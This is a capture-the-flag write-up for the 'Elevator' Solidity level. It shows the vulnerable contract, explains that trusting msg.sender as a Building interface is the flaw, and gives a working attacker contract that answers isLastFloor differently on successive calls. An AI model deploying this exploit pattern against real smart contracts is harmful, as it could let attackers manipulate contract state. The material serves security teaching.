 # 11. Elevator

This elevator won't let you reach the top of your building. Right?

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## Vulnerability

The vulnerability is quite obvious : `Building building = Building(msg.sender);` makes a strong assumption about the caller.
We can design our own Building smart contract implementing `function isLastFloor(uint) external returns (bool);` but with additional logic to break the elevator contract and reach the top.

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract AdversarialBuilding {

    bool alreadyCalled = false;
    address targetContract;

    constructor(address _targetContract) {
        targetContract = _targetContract;

    }

    function isLastFloor(uint256) external returns (bool) {
        if (alreadyCalled == false) {
            alreadyCalled = true;
            return false;
        }
        return true;
    }

    function attack() public {
        (bool success, ) = targetContract.call(abi.encodeWithSignature("goTo(uint256)", 0));
        require (success == true);
    }
}
```